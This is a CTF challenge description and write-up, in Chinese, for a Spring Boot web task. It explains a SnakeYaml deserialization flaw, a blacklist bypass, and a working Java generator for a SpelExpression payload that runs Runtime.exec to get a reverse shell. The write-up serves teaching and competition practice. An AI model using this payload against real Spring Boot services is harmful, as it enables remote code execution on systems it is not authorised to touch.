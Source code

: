 ## 題目名稱
Yaml Config

## 題目類型
Web

## 題目說明
Parse yaml config with Spring Boot !

## 環境部署
使用 `docker` 文件夾下的東西部署。
```sh
# build
docker build -t yamlconfig:latest .
# run
docker run -p 8081:8080 -d yamlconfig:latest
```
環境內的 springboot 是跑在 8080 端口上的，同目錄下的 `attachment.zip` 是作為附件發給選手的。

## Write-Up
最近在看 SnakeYaml 這個包時找到的半條鏈子，為什麼說是半條呢，因為它沒發一步到位欸，但是感覺可以放到題目中搞一個 java 題於是就這麼弄咯。

打開附件可以是一個 docker 出網環境，看配置可以看出來需要 RCE。同時看到有一個 jar 包，使用一些工具反編譯后可以得到路由信息和依賴包。

下面這個路由發現能夠打 snakeyaml ，所以可以直接去找 snakeyaml 的鏈子。
```java
@PostMapping({"/config"})
@ResponseBody
public HashMap<String, String> config(String yaml) {
    HashMap<String, String> configMap = new HashMap<>();
    if (!Common.isValid(yaml) || yaml.isEmpty()) {
        yaml = Common.exampleConfig;
    }
    Yaml parse = new Yaml();
    Object config = parse.load(yaml);
    Method[] methods = config.getClass().getDeclaredMethods();
    for (Method method: methods) {
        String name = method.getName();
        if (name.startsWith("get")
                && method.getParameterCount() == 0
                && name.length() > 3) {
            name = name.substring(3);
            try {
                configMap.put(name, method.invoke(config).toString());
            } catch (Exception ignored) {}
        }
    }
    return configMap;
}
```

但是我這裡寫了一個黑名單，ban掉了 `[`，`]`，以及一些網絡上已經有的鏈子。

```java
public static boolean isValid(String origin) {
    if (origin.contains("[") || origin.contains("]") || origin.contains("ScriptEngineManager") || origin.contains("InputStream")
            || origin.contains("OutputStream") || origin.contains("JdbcRowSetImpl") || origin.contains("jndi")) {
        return false;
    }
    return true;
}
```

關於繞過`[`,`]`其實可以去看snakeyaml的源碼解析流程或者說去看看 yaml 協議格式，可以用下面這個形式來代替調用構造器：
```yaml
!!Class
  - "FieldA's value"
  - "FieldB's value"
  - "FieldC's value"
```

可以看到環境中並沒有給一些特別的依賴項，其實這也減少了選手搜索鏈的難度。

再來看看路由，它後續處理時會獲取這個對象所有的 `get(.*)` 方法并調用，如果對 Java 反序列化熟悉的話可以知道 SpringBoot 依賴項中默認引入了 `SpelExpression`，而它便需要通過 `getValue` 方法觸發。於是我們的任務就變成了用 yaml 的語法構造一個 `SpelExpression`，然後它會觸發 `getValue` 方法從而造成 rce。

具體怎麼構造有一個好辦法就是調試時輸出它 ast 的結構，然後跟著打一遍就行。

下面就是生成的 yaml 文件內容，然後將生成的內容直接發給 SpringBoot，反彈 shell 即可。（記住命令前後"\"的轉義）

```java
public String ELExpression(String cmd) {
    int length = cmd.length();
    return String.format(
            "!!org.springframework.expression.spel.standard.SpelExpression\n" +
            "  - \"T(java.lang.Runtime).getRuntime().exec(\\\"%s\\\")\"\n" +
            "  - !!org.springframework.expression.spel.ast.CompoundExpression\n" +
            "    - 0\n" +
            "    - 38\n" +
            "    -\n" +
            "      - !!org.springframework.expression.spel.ast.TypeReference\n" +
            "        - 0\n" +
            "        - 1\n" +
            "        - !!org.springframework.expression.spel.ast.QualifiedIdentifier\n" +
            "          - 2\n" +
            "          - 19\n" +
            "          -\n" +
            "            - !!org.springframework.expression.spel.ast.Identifier\n" +
            "              - \"java\"\n" +
            "              - 2\n" +
            "              - 6\n" +
            "            - !!org.springframework.expression.spel.ast.Identifier\n" +
            "              - \"lang\"\n" +
            "              - 7\n" +
            "              - 11\n" +
            "            - !!org.springframework.expression.spel.ast.Identifier\n" +
            "              - \"Runtime\"\n" +
            "              - 12\n" +
            "              - 19\n" +
            "      - !!org.springframework.expression.spel.ast.MethodReference\n" +
            "        - false\n" +
            "        - \"getRuntime\"\n" +
            "        - 21\n" +
            "        - 31\n" +
            "        -\n" +
            "      - !!org.springframework.expression.spel.ast.MethodReference\n" +
            "        - false\n" +
            "        - \"exec\"\n" +
            "        - 34\n" +
            "        - 38\n" +
            "        -\n" +
            "          - !!org.springframework.expression.spel.ast.StringLiteral\n" +
            "            - \"\\\"%s\\\"\"\n" +
            "            - 39\n" +
            "            - %d\n" +
            "            - \"\\\"%s\\\"\"\n" +
            "  - !!org.springframework.expression.spel.SpelParserConfiguration \n" +
            "    - false\n" +
            "    - false\n" , cmd, cmd, 41 + length, cmd);
}
```
